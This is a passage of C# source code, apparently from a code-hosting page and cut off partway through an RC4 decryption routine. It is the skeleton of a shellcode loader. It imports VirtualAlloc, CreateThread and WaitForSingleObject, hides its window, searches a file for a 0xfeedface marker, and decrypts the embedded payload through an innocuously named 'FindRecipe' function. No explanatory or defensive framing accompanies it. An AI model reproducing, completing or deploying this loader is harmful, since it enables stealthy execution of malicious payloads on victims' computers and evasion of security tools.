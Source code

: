 ```

    [DllImport("user32.dll")]
    static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);
    
	[DllImport("kernel32")]
	private static extern IntPtr VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
	
	[DllImport("kernel32")]
	private static extern IntPtr CreateThread(            
	UInt32 lpThreadAttributes,
	UInt32 dwStackSize,
	IntPtr lpStartAddress,
	IntPtr param,
	UInt32 dwCreationFlags,
	ref UInt32 lpThreadId           
	);
	   
    [DllImport("kernel32.dll")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, int dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out uint lpThreadId);

    [DllImport("kernel32.dll")]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        
    public static byte[] _tag = { 0xfe, 0xed, 0xfa, 0xce, 0xfe, 0xed, 0xfa, 0xce };
    public static byte[] Read(string filePath)
        {
            using (FileStream stream = new FileStream(filePath, FileMode.Open, FileAccess.Read))
            {
                byte[] rawData = new byte[stream.Length];
                stream.Read(rawData, 0, (int)stream.Length);
                stream.Close();

                return rawData;
            }
        }

    const int SW_HIDE = 0;
    const int SW_SHOW = 5;

  public static byte[] FindRecipe(byte[] data, string encKey)
        {
            byte[] T = new byte[256];
            byte[] S = new byte[256];
            int keyLen = encKey.Length;
            int dataLen = data.Length;
            byte[] result = new byte[dataLen];
            byte tmp;
            int j = 0, t = 0, i = 0;


            for (i = 0; i < 256; i++)
            {
                S[i] = Convert.ToByte(i);
                T[i] = Convert.ToByte(encKey[i % keyLen]);
            }

```